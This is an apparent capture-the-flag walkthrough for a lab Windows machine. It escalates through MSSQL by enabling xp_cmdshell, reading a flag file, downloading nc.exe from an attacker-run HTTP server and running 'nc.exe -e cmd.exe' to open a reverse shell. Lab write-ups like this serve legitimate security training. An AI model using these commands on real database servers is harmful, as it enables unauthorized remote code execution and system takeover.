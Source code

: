![mssql-svc](../.res/2022-09-23-14-29-48.png)  
- Let's check our permissions with this user `SELECT * FROM fn_my_permissions(NULL, 'SERVER');`
- We have many more than previously
- Seems like we could event try xp_cmdshell again

```sql
SQL> EXEC master..xp_CMDShell 'whoami';
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

- Let's try to enable it `enable_xp_cmdshell` if we issue our previous command again it works  
![whoami](../.res/2022-09-23-14-41-11.png)  
- We can get the user flag `EXEC master..xp_CMDShell 'type C:\Users\mssql-svc\Desktop\user.txt';`
- Let's get nc.exe in our target `python3 -m http.server 80`
- `EXEC master..xp_CMDShell 'curl.exe -o C:\Users\mssql-svc\Desktop\nc.exe http://10.10.14.7/nc.exe'` we get it
- `EXEC master..xp_CMDShell 'dir C:\Users\mssql-svc\Desktop\'` we check that it worked
- We set a listener `rlwrap nc -lvp 4444`
- `EXEC master..xp_CMDShell 'C:\Users\mssql-svc\Desktop\nc.exe -e cmd.exe 10.10.14.7 4444'`
- We get a shell  
![shell](../.res/2022-09-23-15-25-14.png)  
